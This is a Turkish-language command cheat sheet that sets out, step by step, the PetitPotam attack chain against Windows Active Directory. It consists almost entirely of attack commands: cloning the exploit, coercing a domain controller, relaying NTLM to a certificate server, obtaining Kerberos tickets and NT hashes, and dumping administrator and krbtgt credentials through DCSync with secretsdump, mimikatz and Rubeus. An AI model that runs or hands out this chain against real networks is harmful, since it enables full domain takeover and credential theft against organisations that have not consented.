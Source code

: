 Aşağıda PetitPotam saldırısını gerçekleştirmek adına kullanabileceğiniz komutlar ile alakalaı açıklamalar mevcuttur. Konu ile alakalı daha geniş çaplı bilgiye sahip olmak için konu ile alakalı makalemi de okuyabilirsiniz 







| Komut | Açıklama | Kullanıcı | Hedef | Notlar |
| --- | --- | --- | --- | --- |
| `git clone https://github.com/topotam/PetitPotam.git` | PetitPotam exploit kodunu indirim | Linux Saldırı Makinası | - | Git kullanılarak yapılır. |
| `python3 PetitPotam.py 172.16.5.225 172.16.5.5` | PetitPotam exploit kodunu çalıştırın | Linux Saldırı Makinası | Hedef (Domain Controller) | Saldırı Makinasının IP Adresi Belirtilir. |
| `sudo ntlmrelayx.py -debug -smb2support --target http://target-domain.LOCAL/certsrv/certfnsh.asp --adcs --template DomainController` | NTLM relay oluşturmak için Impacket aracını çalıştırın | Linux Saldırı Makinası | Hedef (CA Sunucu) | Sunucu sertifika kayıt URL'i belirtilir. |
| `python3 /opt/PKINITtools/gettgtpkinit.py target-domain.LOCAL/TARGET-DC01\$ -pfx-base64 <base64 certificate> = dc01.ccache` | TGT bileti almak için Impacket aracını çalıştırın | Linux Saldırı Makinası | Domain Controller | Base64 sertifika ve ccache dosyası oluşturulur. |
| `klist` | Ccache dosyasının içeriğini görüntüle | Linux Kullanıcı | - | Kerberos bilet bilgilerini gösterir. |
| `python /opt/PKINITtools/getnthash.py -key 70f805f9c91ca91836b670447facb099b4b2b7cd5b762386b3369aa16d912275 target-domain/TARGET-DC01$` | NTLM hash değerleri almak | Linux Saldırı Makinası | Domain Controller | TGS istekleri gönderilir ve hash değerleri alınır. |
| `secretsdump.py -just-dc-user target-domain/administrator -k -no-pass "TARGET-DC01$"@TARGET-DC01.target-domain.local` | NTLM hash değerlerini NTDS.dit dosyasından çıkarmak | Linux Saldırı Makinası | Domain Controller | DCSync saldırısı ve TGT bileti kullanılır. |
| `secretsdump.py -just-dc-user target-domain/administrator "TARGET-DC01$"@172.16.5.5 -hashes aad3c435b514a4eeaad3b935b51304fe:313b6f423cd1ee07e91315b4919fb4ba` | NTLM hash değerlerini NTDS.dit dosyasından çıkarmak | Linux Saldırı Makinası | Domain Controller | DCSync saldırısı ve yakalanan hash değeri kullanılır. |
| `.\Rubeus.exe asktgt /user:TARGET-DC01$ /<base64 certificate>=/ptt` | Pass-the-ticket saldırısı yapmak | Windows Saldırı Makinası | Domain Controller | Makine hesabı kullanılarak TGT bileti alınır. |
| `mimikatz # lsadump::dcsync /user:target-domain\krbtgt` | DCSync saldırısı yapmak | Windows Saldırı Makinası | Domain Controller | Mimikatz kullanılarak DCSync saldırısı yapılır. |
